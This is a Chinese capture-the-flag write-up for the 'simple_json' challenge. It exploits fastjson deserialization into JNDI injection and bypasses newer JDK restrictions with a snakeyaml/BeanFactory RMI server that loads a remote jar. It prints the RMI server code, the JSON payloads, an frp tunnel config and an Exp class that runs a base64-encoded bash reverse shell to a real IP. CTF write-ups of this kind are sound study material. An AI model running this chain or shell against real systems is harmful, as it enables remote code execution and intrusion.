

### simple_json

### 考点：

snakeyaml绕过高版本jndi

### 解题

给了一个jar包，看一下controller

```java
package ycb.simple_json.controller;

import com.alibaba.fastjson.JSON;
import java.io.IOException;
import javax.servlet.ServletInputStream;
import javax.servlet.http.HttpServletRequest;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import ycb.simple_json.message.Message;
import ycb.simple_json.service.ApiTestService;

@RestController
@RequestMapping({"/ApiTest"})
public class JsonApiTestController {
    @Autowired
    private ApiTestService apiTestService;

    public JsonApiTestController() {
    }

    @GetMapping({"/get"})
    public String getApiTest() {
        return this.apiTestService.getMsg().toString();
    }

    @PostMapping({"/post"})
    public String postApiTest(HttpServletRequest request) {
        ServletInputStream inputStream = null;
        String jsonStr = null;

        try {
            inputStream = request.getInputStream();
            StringBuffer stringBuffer = new StringBuffer();
            byte[] buf = new byte[1024];
            int len = false;

            int len;
            while((len = inputStream.read(buf)) != -1) {
                stringBuffer.append(new String(buf, 0, len));
            }

            inputStream.close();
            jsonStr = stringBuffer.toString();
            return ((Message)JSON.parseObject(jsonStr, Message.class)).toString();
        } catch (IOException var7) {
            var7.printStackTrace();
            return "Test fail";
        }
    }
}
```

在`/ApiTest/post`中有`((Message)JSON.parseObject(jsonStr, Message.class)).toString();`，利用fastjson来打，Test类给了ldap的payload

```java
package ycb.simple_json;

import com.alibaba.fastjson.JSON;
import ycb.simple_json.message.Message;

public class Test {
    public Test() {
    }

    public static void main(String[] args) {
        System.out.println(JSON.parseObject("{\"content\" : {\"@type\": \"ycb.simple_json.service.JNDIService\", \"target\":\"ldap://101.33.211.155:8087/aaa\"}, \"msg\":{\"$ref\":\"$.content.context\"}}", Message.class));
    }
}
```

本地尝试低版本可以打，远程不行，猜测是JNDI高版本绕过

这里依赖中发现了snakeyaml，我们可以尝试rmi打反序列化

贴两篇参考文章：

```
http://tttang.com/archive/1405/#toc_snakeyaml
https://github.com/passer-W/snakeyaml-memshell
https://xz.aliyun.com/t/11208
```

先构造一个rmi服务器

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;


import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 9999");
        Registry registry = LocateRegistry.createRegistry( 9999);
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String yaml = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://1.117.171.248:8887/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));
        ref.add(new StringRefAddr("a", yaml));
        System.out.println("[*]Evil command: rce");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("rce", referenceWrapper);
    }
}
```

接下来将恶意jar放在对应端口后本地起一个rmiserver并利用frp将其映射到外网，client配置文件：

```
[common]
server_addr = 47.109.17.144
server_port = 8081

[ssh]                       
type = tcp                  
local_ip = 127.0.0.1       
local_port = 9999        
remote_port = 8082 
```

接下来kali起一个题目环境app.jar

```
http://192.168.111.5:8080/ApiTest/post

POST：
# 记得type改为json
{"content" : {"@type": "ycb.simple_json.service.JNDIService", "target":"rmi://47.109.17.144:8082/rce"}, "msg":{"$ref":"$.content.context"}}
```

打完之后报500



接下来`?passer=whoami`即可执行命令

这里发现一个问题就是远程无法连接，看了wp发现用到一个工具

```
https://github.com/orangetw/JNDI-Injection-Bypass
```

将snakeyaml添加后打包

```java
 public ReferenceWrapper execBySnake() throws Exception{
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String yaml = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://1.117.171.248:8887/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));
        ref.add(new StringRefAddr("a", yaml));
        return new ReferenceWrapper(ref);
    }
    /**
     *   TODO: Need more methods to bypass in different java app builded by JDK 1.8.0_191+
     */


    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
        String ip = args[0];
        System.out.println(ip);
        EvilRMIServer evilRMIServer = new EvilRMIServer(new Listener(ip,5555));
        System.setProperty("java.rmi.server.hostname",ip);

        registry.bind("ExecByEL",evilRMIServer.execByEL());
        registry.bind("ExecByGroovy",evilRMIServer.execByGroovy());
        registry.bind("ExecBySnake",evilRMIServer.execBySnake());
    }
}
```

服务器开启rmiserver

```
java -cp JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer 1.117.171.248
```

最终payload

```
{"content" : {"@type": "ycb.simple_json.service.JNDIService", "target":"rmi://1.117.171.248:1097/ExecBySnake"}, "msg":{"$ref":"$.content.context"}}
```

#### 注意

关于恶意jar的构造

```
https://github.com/passer-W/snakeyaml-memshell
```

或者自己构造

```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;


public class Exp implements ScriptEngineFactory {


 static {
 try {
 Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjExNy4xNzEuMjQ4LzM5NTQzIDA+JjE=}|{base64,-d}|{bash,-i}");
 } catch (IOException e){
            e.printStackTrace();
 }
 }


 @Override
 public String getEngineName() {
 return null;
 }


 @Override
 public String getEngineVersion() {
 return null;
 }


 @Override
 public List<String> getExtensions() {
 return null;
 }


 @Override
 public List<String> getMimeTypes() {
 return null;
 }


 @Override
 public List<String> getNames() {
 return null;
 }


 @Override
 public String getLanguageName() {
 return null;
 }


 @Override
 public String getLanguageVersion() {
 return null;
 }


 @Override
 public Object getParameter(String key) {
 return null;
 }


 @Override
 public String getMethodCallSyntax(String obj, String m, String... args) {
 return null;
 }


 @Override
 public String getOutputStatement(String toDisplay) {
 return null;
 }


 @Override
 public String getProgram(String... statements) {
 return null;
 }


 @Override
 public ScriptEngine getScriptEngine() {
 return null;
 }


}
```

同目录下创建`META-INF/services/javax.script.ScriptEngineFactory`文件，内容为Exp

编译打包即可